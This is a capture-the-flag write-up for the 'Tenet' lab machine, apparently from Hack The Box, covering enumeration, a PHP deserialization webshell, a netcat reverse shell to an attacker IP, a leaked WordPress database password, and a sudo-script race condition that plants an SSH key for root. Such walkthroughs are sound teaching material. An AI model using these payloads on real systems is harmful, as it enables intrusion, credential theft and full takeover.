



# Tenet
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.223 --min-rate 1000                                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-02 17:56 GMT
Warning: 10.10.10.223 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.223 (10.10.10.223)
Host is up (0.20s latency).
Not shown: 64405 closed tcp ports (conn-refused), 1128 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 102.92 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.223 --min-rate 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-02 18:05 GMT
Nmap scan report for 10.10.10.223 (10.10.10.223)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.17 seconds

```

- Web server



- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.223/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js -t 50 --no-error

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.223/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/.html                (Status: 403) [Size: 277]
/users.txt            (Status: 200) [Size: 8]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.223/wordpress/]

```

- `wordpress` is broken, but reveals `vhost`


- `vhosts`
```
└─$ wfuzz -u http://10.10.10.223/ -H 'Host: FUZZ.tenet.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 964
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.223/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000001:   301        0 L      0 W        0 Ch        "www"                                                                                                                                                                      
000000689:   400        12 L     53 W       425 Ch      "gc._msdcs"      
```

- Now we can `wordpresss`




## Foothold
- We could run `wpscan`, but there is an interesting comment in one of the posts about the migration



- If we try to `curl` `sator.php` from `tenet.htb` we receive `404`
```
└─$ curl -s tenet.htb/sator.php    
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at tenet.htb Port 80</address>
</body></html>

```
```
└─$ curl -s tenet.htb/sator.php.bak
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at tenet.htb Port 80</address>
</body></html>

```

- But if we try `ip`, we receive source code
```
└─$ curl -s 10.10.10.223/sator.php
[+] Grabbing users from text file <br>
[] Database updated <br>    
```
```
└─$ curl -s 10.10.10.223/sator.php.bak
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>

```

- We control input to `unserialize` function
  - `Deserialization` is the reverse of that process, taking data structured from some format, and rebuilding it into an object.
  - Then `__destruct()` creates a file with `data` content
  - `__destruct` is called when PHP script end and object is destroyed
    - `__destruct` is called when the object is deserialized
  - https://book.hacktricks.xyz/pentesting-web/deserialization#php
```
<?php

class DatabaseExport {

    public $user_file = "shell.php";
    public $data = '<?php system($_REQUEST["cmd"]); ?>';
 
}

$sploit = new DatabaseExport;
echo serialize($sploit);
?>

```
```
└─$ php payload.php 
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";} 
```

- Upload
  - And now we have our webshell
```
└─$ curl -G http://10.10.10.223/sator.php --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}'
[+] Grabbing users from text file <br>
[] Database updated <br>[] Database updated <br>
```
```
└─$ curl http://10.10.10.223/shell.php?cmd=id                                                                                                                                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

- Let's get reverse shell
```
└─$ curl http://10.10.10.223/shell.php --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 6666 >/tmp/f'

```


## User
- `wp-config.php` contains `neil`'s creds
```
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
<SNIP>
```

- `su` to `neil`
```
www-data@tenet:/var/www/html$ su - neil
Password: 
neil@tenet:~$ 
```
## Root
- `sudo`
```
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh

```

- Script's content
```
neil@tenet:~$ cat /usr/local/bin/enableSSH.sh
#!/bin/bash

checkAdded() {

        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

                /bin/echo "Successfully added $sshName to authorized_keys file!"

        else

                /bin/echo "Error in adding $sshName to authorized_keys file!"

        fi

}

checkFile() {

        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

                /bin/echo "Error in creating key file!"

                if [[ -f $1 ]]; then /bin/rm $1; fi

                exit 1

        fi

}

addKey() {

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded

```

- We would need 2 sessions, since one will start the script
  - The second will be writting my public to key to all `ssh-*` files
  - Basically abusing the race condition
```
neil@tenet:/tmp$ while true; do for file in /tmp/ssh-* ; do ("ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo+qtyTekC0IbR253hJRsWT9Q+wCFVUEwHS7/VZJEOvePL+oIm2LZp9G1ml3FToU6Qr2MtB83tJU7mMFqcKm3mfVTj+lpJzP+XO4A/xHzLiqhZScv56FM0JaZqz65/Oca4FF4AiNS0gOwJ7vu5sARMYFbb5jsd266eCFvymRLobt3Ujzo5lqcRiLOgZPVCasfHU0vPCNGTaMvDKyklhwSCsMbKjOxuozbwZwJ1ApsCkkx7bx277DGgOI6G/rLYFkc/W/+Y9hxqp4RifUzgu6GACKDIKyAnszWxZHNMT/Iokkcn35Xd5p/ykVgrjLBDQKCxTr4Org/M7L9xhvd19GbH kali@kali" > $file); done; done
```
```
neil@tenet:~$ while true; do sudo /usr/local/bin/enableSSH.sh; done
Successfully added root@ubuntu to authorized_keys file!
```

- As soon as we see fail, we should be able to login as `root`